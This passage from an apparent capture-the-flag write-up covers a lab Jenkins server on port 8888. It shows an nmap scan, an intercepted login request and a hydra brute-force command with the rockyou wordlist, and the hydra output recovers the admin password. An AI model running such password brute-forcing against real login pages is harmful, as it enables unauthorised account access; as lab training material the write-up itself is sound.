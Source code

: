 And now, Jenkins is available to us over port 8888:

~~~
PORT     STATE SERVICE VERSION
8888/tcp open  http    Jetty 9.4.30.v20200611
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.30.v20200611)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
~~~

## Jenkins' admin password

Trying to authenticate as `admin` with `admin` or `password` as password fails. Let's try to brute force the account.

To do that, intercept the POST request in Burp Suite to build our hydra attack.

~~~
POST /j_acegi_security_check HTTP/1.1
Host: internal.thm:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://internal.thm:8888/login?from=%2F
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Connection: close
Cookie: JSESSIONID.fb3308f2=node0lfk0eau5l4zu17h43ifl0scpw36.node0
Upgrade-Insecure-Requests: 1

j_username=admin&j_password=admin&from=%2F&Submit=Sign+in
~~~

We now have all the required information. Here is the hydra attack:

~~~
kali@kali:/data/src$ hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm -s 8888 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-03 15:40:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://internal.thm:8888/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[STATUS] 396.00 tries/min, 396 tries in 00:01h, 14344003 to do in 603:43h, 16 active
[8888][http-post-form] host: internal.thm   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-03 15:41:31
~~~
